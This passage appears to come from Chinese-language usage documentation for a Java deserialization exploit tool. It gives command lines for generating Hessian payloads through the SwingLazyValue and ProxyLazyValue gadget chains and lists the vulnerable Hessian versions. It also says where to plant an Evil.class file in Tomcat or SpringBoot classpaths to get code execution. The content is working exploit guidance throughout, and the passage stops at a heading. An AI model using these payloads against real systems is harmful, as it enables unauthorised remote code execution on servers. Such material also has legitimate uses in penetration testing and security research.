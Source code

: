 工具：推荐使用ProxyLazyValue构造方式，以下示例是使用CommonsBeanutils2二次Java反序列化，在其他的Java反序列化链以此类推

```bash
#SwingLazyValue在ysoSimple中测试成功,本地SpringBoot环境失败(可能触发JVM Crash或打不了)
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:CommonsLangDeserialize:CommonsBeanutils2:Templateslmpl:auto_cmd:calc" -hessianType="Hessian2"

#ProxyLazyValue测试通过
-m HessianAttack -g HashMapLazyValue -a "ProxyLazyValue:CommonsLangDeserialize:CommonsBeanutils2:Templateslmpl:auto_cmd:calc" -hessianType="Hessian2"
```

#### ProxyLazyValue 独立利用

描述：因为ProxyLazyValue进行类加载的加载器是线程上下文类加载器，在某些场景下如果能在上下文类加载器的classpath下写.class文件就可以直接利用ProxyLazyValue进行类加载导致代码执行。强推学习huahua大师傅的[记某次实战hessian不出网反序列化利用](https://flowerwind.github.io/2023/04/17/%E8%AE%B0%E6%9F%90%E6%AC%A1%E5%AE%9E%E6%88%98hessian%E4%B8%8D%E5%87%BA%E7%BD%91%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8-md/)

说明：Hessian版本限制如下：

* caucho hessian <= 4.0.66
* sofa hessian <= 4.0.4
* hessian little <= 3.2.11

工具：只支持ProxyLazyValue构造方式，因为它用的是线程上下文类加载器

```
-m HessianAttack -g HashMapLazyValue -a "ProxyLazyValue:ThreadClassLoader:T34403237892999" -hessianType="Hessian2" -writeToFile="/tmp/1.ser"
```

需要搭配写文件漏洞将字节码class文件写在线程上下文类加载器加载的classpath下面：本地测试只能触发一次，所以想变换漏洞利用效果需要重新写并加载

线程上下文类加载器classpath的位置：

- springboot场景下：
  - Windows：C:\Users\Xxxx\AppData\Local\Temp\tomcat-docbase.3584977337134953447.9124\WEB-INF\classes\Evil.class
  - Linux：/tmp/tomcat-docbase.3584977337134953447.9124/WEB-INF/classes/Evil.class
- tomcat场景下：
  - {tomcat.home}/webapps/wuxdiXxxcms/WEB-INF/classes/Evil.class

#### 其他的LazyValue利用方式

[UnSafe-探寻Hessian JDK原生反序列化不出网的任意代码执行利用链](https://blog.wanghw.cn/security/hessian-deserialization-jdk-rce-gadget.html)

#### 打失败的问题(LazyValue+MethodUtil)
